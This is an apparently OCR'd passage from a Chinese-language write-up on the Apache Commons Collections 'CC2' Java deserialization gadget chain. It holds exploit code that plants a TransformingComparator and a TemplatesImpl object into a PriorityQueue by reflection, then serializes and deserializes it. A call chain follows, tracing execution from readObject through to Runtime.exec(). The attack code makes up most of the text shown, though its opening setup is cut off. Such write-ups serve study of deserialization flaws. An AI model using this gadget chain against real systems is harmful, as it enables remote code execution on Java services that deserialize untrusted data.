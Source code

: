 ```java
        _tfactory.set(templates, new TransformerFactoryImpl());

        TransformingComparator transformingComparator = new TransformingComparator(transformer);
        PriorityQueue priorityQueue = new PriorityQueue(2);
        priorityQueue.add(1);
        priorityQueue.add(2);
        Class c2 = Class.forName("java.util.PriorityQueue");
        Field _queue = c2.getDeclaredField("queue");
        _queue.setAccessible(true);
        Object[] queue_array = new Object[]{templates,1};
        _queue.set(priorityQueue,queue_array);

        Field field = Class.forName("java.util.PriorityQueue").getDeclaredField("comparator");
        field.setAccessible(true);
        field.set(priorityQueue, transformingComparator);
        try {
            // 序列化操作
            ObjectOutputStream outputStream = new ObjectOutputStream(new FileOutputStream("./CC2EvilGadget2.bin"));
            outputStream.writeObject(priorityQueue);
            outputStream.close();
            // 反序列化操作
            ObjectInputStream inputStream = new ObjectInputStream(new FileInputStream("./CC2EvilGadget2.bin"));
            inputStream.readObject();
            inputStream.close();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    public static void main(String[] args) {
        try {
            CC2();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

![undefined](https://p0.ssl.qhimg.com/t01f76471ecd1fb1e6a.png "undefined")

## 调用链
```java
ObjectInputStream.readObject()
    PriorityQueue.readObject()
        PriorityQueue.heapify()
            PriorityQueue.siftDown()
                PriorityQueue.siftDownUsingComparator()
                    TransformingComparator.compare()
                        InvokerTransformer.transform()
                                Method.invoke()
                                    TemplatesImpl.newTransformer()
                                         TemplatesImpl.getTransletInstance()
                                         TemplatesImpl.defineTransletClasses
                                         newInstance()
                                            Runtime.exec()
```
